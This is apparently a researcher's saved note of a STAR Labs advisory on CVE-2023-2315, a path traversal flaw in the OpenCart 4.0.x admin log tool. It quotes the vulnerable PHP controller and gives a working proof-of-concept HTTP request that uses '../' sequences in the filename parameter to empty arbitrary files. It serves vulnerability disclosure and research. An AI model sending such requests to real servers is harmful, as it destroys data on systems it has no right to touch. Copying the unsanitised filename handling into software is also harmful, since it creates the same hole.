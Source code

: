 ```yaml
---
author: STAR Labs
aliases:
  - (CVE-2023-2315) Path Traversal in OpenCart Versions 4.0.0.0 to 4.0.2.2
tags:
  - readwise/articles
  - opencart
  - vulnerability-research/finished
url: https://starlabs.sg/advisories/23/23-2315/
date: 2024-08-20
category:
  - Web
last-time: 2024-08-20
---
```

# (CVE-2023-2315) Path Traversal in OpenCart Versions 4.0.0.0 to 4.0.2.2

![rw-book-cover](https://starlabs.sg/logo-white.png)

## Highlights


> Path traversal in Opencart versions 4.0.0.0 to 4.0.2.2 allows authenticated backend users to empty any existing file on the server with write permissions.
> [View Highlight](https://read.readwise.io/read/01hbtz770ryfnn3ydpz85a81v7)
> #advisory  

# PoC

*admin\controller\tool\log.php*

```php title:"admin\controller\tool\log.php"
class Log extends \Opencart\System\Engine\Controller {
...
public function clear(): void {
	if (isset($this->request->get['filename'])) {
            $filename = (string)$this->request->get['filename'];
        } else {
            $filename = '';
        }
	...
	$file = DIR_LOGS . $filename;
        if (!is_file($file)) {
            $json['error'] = sprintf($this->language->get('error_file'), $filename);
        }
        if (!$json) {
            $handle = fopen($file, 'w+');
            fclose($handle);
            $json['success'] = $this->language->get('text_success');
        }
        ...
```

The application does not manage  the `filename` field and allows to delete arbitrary files.



```http
GET /opencart-latest/admin/index.php?route=tool/log.clear&user_token=40cc3d40e897751f863b18ea52eaa3e9&filename=../../../../../../../../dev/shm/PoC.txt HTTP/1.1
Host: 127.0.0.1
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Referer: http://127.0.0.1/opencart-latest/admin/index.php?route=tool/log&user_token=40cc3d40e897751f863b18ea52eaa3e9
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: OCSESSID=fbc47c7e5098550f0c12070be0
Connection: close


HTTP/1.1 200 OK
```

